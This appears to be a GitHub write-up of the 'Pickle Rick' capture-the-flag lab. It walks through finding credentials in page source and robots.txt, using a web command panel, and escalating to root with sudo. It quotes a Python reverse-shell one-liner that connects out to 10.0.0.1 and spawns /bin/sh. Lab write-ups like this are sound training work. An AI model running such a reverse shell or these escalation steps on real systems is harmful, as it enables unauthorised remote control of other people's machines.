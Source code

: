 # Pickle-Rick
A CTF exploiting a vulnerable web server

### Enumeration

The first step I took was going to the webpage and view the page source to see if there was any useful information. Here I found a username was hidden the source code.

Website
![website](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Webpage.png)

The username shown was: R1ckRul3s
Username
![username](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Page%20Source.png)

After finding the username I ran gobuster to see if there were any additional webpages to exploit. This showed a robots.txt file that I navigated to.
![gobuster](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Gobuster.png)

The robots.txt page showed a password that I then used to login to the login.php page that was also found when I ran gobuster.
The password shown was: Wubbalubbadubdub
![robots](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Robots.png)
![login page](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Portal%20Login%20Page.png)

Once logged in I found a command line that I ran a ls -al in. Here I found that there was a file named Sup3rS3cretPickl3Ingred.txt. I tried to cat the file but ran into a message saying the command was disabled.
![ls -al](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/ls%20-al.png)
![cat file](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Trying%20to%20cat.png)

Since there was a command line, I decided that the best approach would be to set up a netcat listener and try to get a reverse shell to exploit the webpage.

The first step was to find what python is running on the system, which was python3. Then I went to pentestmonkey.net to find a python reverse shell script. The script I found was: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
I had to change python to by python3, change the ip address to my kali machine ip address, and lastly I changed the listening port to 9001.

![which python](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Which%20Python.png)

###Ingredient 1
I started a netcat listener on port 9001 and then concatenated the Sup3rS3cretPickl3Ingred.txt file. This showed that the first ingredient needed is mr. meeseek hair
![ingredient 1](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Ingredient%201.png)

###Ingredient 2
To find ingredient 2 I went to the root directory, ran an ls, went into the home directory, then into user rick, and ran a ls on the second ingredients file to find that the second ingredient is jerry tear.
![ingredient 2](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Ingredient%202.png)

###Ingredient 3
The final ingredient appears to be in the root folder, which I do not have access to. Running a sudo -l shows that all commands can be run without needing a password.
Running sudo bash -i allows me to run a super user shell to move into the root folder. Once in the root folder I was able to run a ls and cat the 3rd.txt file, showing the final ingredient is fleeb juice.
![moving to root](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Move%20to%20Root.png)
![ingredient 3](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Ingredient%203.png)
